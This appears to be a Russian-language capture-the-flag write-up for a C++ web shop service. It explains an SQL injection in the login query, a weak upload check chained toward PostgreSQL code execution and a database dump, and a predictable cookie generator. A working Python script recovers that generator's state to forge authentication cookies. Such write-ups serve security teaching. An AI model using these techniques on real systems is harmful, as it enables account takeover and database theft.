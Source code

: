 # Первая уязвимость

Бэкэнд сервиса в качестве базы данных использует postgresql. Так как С++ относительно низкоуровневый язык, то сервис не пользуется никакими ORM, 
но всю работу с базой проделывает через сырые запросы с помощью библиотеки [libpq](https://www.postgresql.org/docs/current/libpq.html). Следовательно,
есть поле для разгула SQL инъекций. При этом почти все места, куда можно было бы вставить инъекцию защищены функцией экранирования PQescapeLiteral. Кроме одного места - 
[метода, используемого при авторизации пользователя](../../services/5g_shop/back/internal/src/services/UsersService.cpp#L98):
```cpp
    auto query = Format(
            HiddenStr("select * from users where login='%s' and password_hash=%s;"),
            login.c_str(),
            escapedPasswordHash.c_str()
    );

    result = PQexec(conn, query.c_str());
```

Сюда можно вставлять практически любой SQL запрос, однако на выходе есть [проверка на "количество и качество"](../../services/5g_shop/back/internal/src/services/UsersService.cpp#L105), которая несколько затрудняет 
извлечение данных через простые запросы:
```cpp
    if (PQresultStatus(result) != PGRES_TUPLES_OK || PQntuples(result) != 1) {
        auto msg = std::string(PQresultErrorMessage(result));

        CROW_LOG_ERROR << msg;

        return Result<std::shared_ptr<User>>::ofError("invalid login or password");
    }

    auto user = User::ReadFromPGResult(result);

    if (user->passwordHash != passwordHash || user->login != login) {
        return Result<std::shared_ptr<User>>::ofError("invalid login or password");
    }
```

В то же время, в сервисе есть функционал загрузки картинок, использующихся для "описания" продаваемой техники. Логика проверки того, что загружаемый файл является картинкой, [присутствует](../../services/5g_shop/back/internal/src/main.cpp#L422), однако написана с ошибкой - проверка есть только заголовка и то, только в случае, когда он есть:
```cpp
    for (auto &header: part.headers) {
        if (header.value.first == "Content-Type") {
            if (!header.value.second.starts_with("image")) {
                return response(status::BAD_REQUEST);
            }
        }
        if (header.value.first == "Content-Disposition") {
            filename = header.params["filename"];
        }
    }
```

Поэтому загрузить любой файл не составит труда. К тому же загруженные файлы будут доступны из контейнера postgresql. Поэтому есть вариант использования уязвимости - выполнить произвольный код
в postgresql, нужно только загрузить туда правильный *.so*-файл. Пример реализации можно посмотреть [здесь](./psql-rce)

Как вариант использования rce уязвимости - перезапись существующей картинки файлами postgresql, а затем обычное выкачивание этой "картинки" себе - получает полную копию базы данных любой команды.


# Вторая уязвимость

В сервисе используется самописный генератор uuid4 для кук авторизации пользователей. Генератор основан на линейном конгруэнтном методе, который легко взламывается. [UUID.cpp](services/5g_shop/back/internal/src/tools/UUID.cpp#L14)
```cpp
volatile uint8_t ab[] = {0x41, 0x3c, 0xc6, 0xf3, 0x4e, 0x5f, 0x6d};
volatile uint8_t cb[] = {0x3c, 0x41, 0x6e, 0xc6, 0xf3, 0x6d, 0x5f};
static volatile uint32_t x;
static bool initialized = false;

static char alpha[] = "0123456789abcdef";

namespace shop {
    uint16_t rand() {
        if (!initialized) {
            initialized = true;

            x = std::time(nullptr);
        }

        uint32_t a = (ab[0] << 24) | (ab[2] << 16) | (ab[4] << 8) | ab[6];
        uint32_t c = (cb[0] << 24) | (cb[2] << 16) | (cb[4] << 8) | cb[6];

        x = x * a + c;

        return static_cast<uint16_t>((x & 0xFFFF0000) >> 16);
    }
}
```

Более того, получаемые uuid почти полностью выдают стейт генератора, лишь меняя полубайты местами и выводя сгенерированные числа "в bit endian'e":
```cpp
int counters[] = {4, 2, 2, 8};

    union {
        uint16_t randvalues[8];
        uint8_t bytes[16];
    };

    randvalues[0] = rand();
    randvalues[1] = rand();
    randvalues[2] = rand();
    randvalues[3] = rand();
    randvalues[4] = rand();
    randvalues[5] = rand();
    randvalues[6] = rand();
    randvalues[7] = rand();

    int p = 0;

    for (auto i = 0; i < 4; ++i) {
        for (int j = 0; j < counters[i]; ++j) {
            uint8_t b = bytes[p++];

            ss << alpha[b & 0x0F] << alpha[(b & 0xF0) >> 4];
        }

        if (i != 3) {
            ss << "-";
        }
    }

    return ss.str();
```

Поэтому восстановить состояние можно, создав пользователя и "посмотрев" на его куку. После восстановленного состояния можно генерировать авторизационные куки. Чтобы не перебирать пары (пользователь, кука) можно 
воспользоваться сортировкой всех пользователей по полю `created_at` таковых из метода `/api/users/list`. Код получания состояния генератора может выглядеть [так:](./broken-uuid/sploit.py)
```python
import requests
import uuid


r = requests.post(f'http://localhost:4040/api/users', json={'login': str(uuid.uuid4()), 'password_hash': str(uuid.uuid4()), 'credit_card_info': 'some card'})

if r.status_code != 201:
    print(r, r.content)
    exit(0)


cookie = r.json()['auth_cookie']

print(cookie)

x1 = int(''.join(reversed(cookie[0:4])), 16)
x2 = int(''.join(reversed(cookie[4:8])), 16)

print(hex(x1), hex(x2))

# параметры генератора из бинарника сервиса
a = 0x41c64e6d
c = 0x3c6ef35f

low = 0
lows = []
while low < (1 << 16):
    if ((((low | (x1 << 16)) * a + c) & 0xFFFF0000) >> 16) == x2:
        lows.append(low)
    low += 1


for low in lows:
    x = (x1 << 16) | low
    def rand():
        global x
        x = (x * a + c) & 0xFFFFFFFF
        return (x & 0xFFFF0000) >> 16
    b = [x, rand(), rand(), rand(), rand(), rand(), rand(), rand()]
    s = ''
    for l in b:
        s += ''.join(reversed((hex(l)[2:]).zfill(4)))
    print(x, s)

    if s[4:] == cookie.replace('-', ''):
        print('found! current state is ', x, a, c)
```

